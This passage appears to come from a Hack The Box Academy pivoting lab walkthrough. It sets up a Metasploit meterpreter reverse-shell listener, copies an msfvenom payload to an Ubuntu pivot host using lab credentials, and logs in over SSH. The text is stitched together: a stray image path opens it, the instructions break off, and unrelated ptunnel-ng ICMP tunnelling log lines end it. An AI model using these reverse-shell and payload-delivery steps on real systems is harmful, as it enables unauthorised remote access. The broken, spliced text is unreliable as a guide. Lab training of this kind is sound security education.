 ```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080
```

Thereafter, students need to transfer the `msfvenom` payload to the Ubuntu pivot host, utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
scp reverseShell ubuntu@STMIP:~/
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ scp reverseShell ubuntu@10.129.104.197:~/

ubuntu@10.129.104.197's password: 
reverseShell
```

Students then need to connect to the Ubuntu pivot host using SSH, utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh ubuntu@STMIP
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh ubuntu@10.129.104.197

ubuntu@10.129.104.197's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

<SNIP>

Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$
```

Once successfully connected to the pivot host, students need to make the `msfvenom` payload executable and then run it:


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.